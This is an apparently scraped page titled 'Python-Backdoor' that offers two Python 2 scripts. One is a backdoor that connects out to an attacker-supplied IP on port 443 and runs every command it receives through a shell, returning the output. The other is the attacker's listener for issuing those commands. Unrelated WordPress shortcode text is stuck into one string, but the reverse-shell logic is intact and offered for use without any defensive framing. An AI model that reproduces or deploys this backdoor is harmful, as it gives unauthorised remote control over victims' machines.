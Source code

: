 # Python-Backdoor
Backdoor Codes:
##Protocol HackeR 
##instagram:fakelinux
import socket,subprocess
HOST = 'Your IP'   
PORT = 443           
s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)

s.connect((HOST, PORT))

s.send('[fusion_builder_container hundred_percent="yes" overflow="visible"][fusion_builder_row][fusion_builder_column type="1_1" background_position="left top" background_color="" border_size="" border_color="" border_style="solid" spacing="yes" background_image="" background_repeat="no-repeat" padding="" margin_top="0px" margin_bottom="0px" class="" id="" animation_type="" animation_speed="0.3" animation_direction="left" hide_on_mobile="no" center_content="no" min_height="none"][*] Connection Established!')

while 1:

     data = s.recv(1024)

     if data == "quit": break

     proc = subprocess.Popen(data, shell=True, stdout=subprocess.PIPE, stderr=subprocess.PIPE, stdin=subprocess.PIPE)

     stdout_value = proc.stdout.read() + proc.stderr.read()

     s.send(stdout_value)

s.close()
 
 Listen Codes:
 ##Protocol Hacker
from socket import *
HOST = 'Your IP'        
PORT = 443         
s = socket(AF_INET, SOCK_STREAM)
s.setsockopt(SOL_SOCKET, SO_REUSEADDR, 1)
s.bind((HOST, PORT))
print "Listening on 0.0.0.0:%s" % str(PORT)
s.listen(10)
conn, addr = s.accept()
print 'Connected by', addr
data = conn.recv(1024)
while 1:
     command = raw_input("Enter shell command or quit: ")
     conn.send(command)
     if command == "quit": break
     data = conn.recv(1024)
     print data
conn.close()

